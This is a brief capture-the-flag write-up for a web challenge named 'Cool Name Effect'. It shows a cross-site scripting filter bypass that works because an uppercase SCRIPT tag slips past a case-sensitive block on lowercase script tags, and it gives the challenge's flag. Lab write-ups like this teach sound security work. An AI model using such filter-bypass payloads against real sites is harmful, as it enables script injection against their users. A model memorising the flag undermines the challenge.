 ## Cool Name Effect
```
Webmaster developed a simple script to do cool effects on your name, but his code not filtering the inputs correctly execute javascript alert and prove it.
```
- Link: http://34.77.37.110/cool-effect/


#### Solve:

- Steps

    - Trying the normal *"script"* tag doesn't work and it will be replaced by forbidden:
        ```
        <script>alert(0)</script>
        ```
    
    - Trying the *SCRIPT* tag "capital" works just fine:
        ```
        <SCRIPT>alert(0)</SCRIPT>        
        ```

> **Flag: ciyypjz**